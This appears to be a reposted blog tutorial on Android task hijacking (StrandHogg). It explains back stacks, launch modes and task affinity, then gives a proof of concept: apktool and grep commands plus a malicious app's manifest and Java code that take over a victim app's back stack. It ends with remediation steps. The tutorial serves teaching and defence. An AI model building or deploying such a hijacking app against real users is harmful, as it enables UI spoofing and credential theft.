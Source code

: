 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [medium.com](https://medium.com/mobis3c/android-task-hijacking-6a3a8848f16e)

> Introduction

**Introduction**

In 2015, at USENIX, task hijacking and its impact on Android were first presented.  
It’s an attack in which a malicious app takes over the vulnerable app’s “back stack,” and whenever the user tries to access the vulnerable app, he’ll be met by the malicious app’s activity instead.

**Tasks and the Back stacks**

According to Android Developer’s Documentation,

A **_task_** is a collection of activities that users interact with when trying to do something in your app. These activities are arranged in a stack called **the _back stack_** in the order in which each activity is opened.

Example:

```
an email app might have one activity to show a list of new messages. When the user selects a message, a new activity opens to view that message. This new activity is added to the back stack. Then, if the user presses or gestures Back, that new activity is finished and popped off the stack.
```

![](https://miro.medium.com/max/962/1*uejmkc_uyVw6Z8cLlYE2qw.png)

the back stack

Don’t get confused with the **Background task** and **Back Stack,** even though the working of both looks same they are different.

**Back Stack** operates as “Last in First out” method, due to which the activities in the stack are never rearranged but only pushed into the stack when the current activity starts it and popped off when the user exits it using the Back button.

The activity that is displayed on the screen is called a **foreground activity** and its task is called the **foreground task**. At a time, only one foreground task is visible on the screen.

According to the Android security model, all the apps running on the device will be isolated and sandboxed from one another but this is not the case when it comes to the Tasks.  
Android allows Activities from different apps to co-reside in the same Task and this is the root cause of the vulnerability.

The image shows androids multi-tasking feature with points discussed above.

![](https://miro.medium.com/max/1400/0*vKu5ctKAb4hAKYYF)

image by hacktricks

**Android Launch Modes**

Launch modes are activity attributes that are specified in the AndroidManifest.xml (or can be mentioned as flags in the calling intent). They provide the underlying OS an instruction on how the activity should be launched.

There are four different Launch Modes:

1.  standard
2.  singleTop
3.  singleTask
4.  singleInstance

For the attack described here, we are mostly concerned with the “**singleTask**” mode.

One of the possibility with “**singleTask**” activity is it allows other activities to be part of its task. It’s always at the root of its task, but other activities (necessarily “standard” and “singleTop” activities) can be launched into that task.

**Task affinity** is an attribute that is defined in each `<activity>` tag in the `AndroidManifest.xml` file. It describes which Task an Activity prefers to join.  
By default, every activity has the same affinity as the **package** name.

**DEMO**

To test the application for task hijacking:

*   choose the target application and decompile it using apktool
*   change into the decompiled directory
*   grep for singletask

```
apktool d com.example.app
cd com.example.app
grep -i "singleTask"
```

If we find the activity whose launchMode is set to **singleTask** then we can hijack the task as it is vulnerable.

We need to create a malicious application to exploit this vulnerability

In android-studio,

*   Create new project and select **Empty activity**
*   Give the application a name and language as java
*   leave all the other options unchanged, there will be 2 default files will be created named **activity_main.xml** and **MainActivity.java**
*   Goto app > manifests > AndroidManifest.xml and double click on it to open in editor

![](https://miro.medium.com/max/1400/1*ep_HvtqkbP59nIHBcU8UwA.png)

now replace the contents of **androidmanifest.xml** with below code.

```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.example.androidtaskhijackingdemo">

    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:taskAffinity="com.ath.victim"
        android:theme="@style/Theme.AndroidTaskHijackingDemo">
        <activity android:
            android:exported="true">
            <intent-filter>
                <action android: />

                <category android: />
            </intent-filter>
        </activity>
    </application>

</manifest>
```

In the above code, we can see **taskAffinity** is set to **victim package.**

Another flag **android:excludeFromRecents** is used to ensure the task is not listed in the recent apps, therefore hiding the attacker’s app

now replace the contents of **MainActivity.java** with below code.

```
package com.example.androidtaskhijackingdemo;

import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        moveTaskToBack(true);
    }

    @Override
    public void onResume(){
        super.onResume();
        setContentView(R.layout.activity_main);
    }
}
```

Activities in android can call the moveTaskToBack() function, which will move the task containing this activity to the **back of the activity stack.** (basically minimise the activity)

save and run the application(android studio will directly install the application to the connected device)

*   Now, when the user opens the attacker’s app. it immediately minimises the task.
*   it will not be shown in the **recent apps** as well.
*   After that, when the user opens the victim app and presses the back button, instead of being taken to home screen. he is taken to the attacker’s application.

Thanks to the **taskAffinity** mentioned by the attackers app which is set to the victims app.

In real life exploitation can involve a very stealthy and convincing UI spoofing

Task hijacking is also known as **StrandHogg** vulnerability**.**

**Remediation**

*   Set the launchMode to **singleInstance** which will prevent other activities from becoming a part of it’s task.
*   A custom **onBackPressed()** function can also be added, to override the default behaviour.
*   Setting `taskAffinity=""` can be a quick fix for this issue.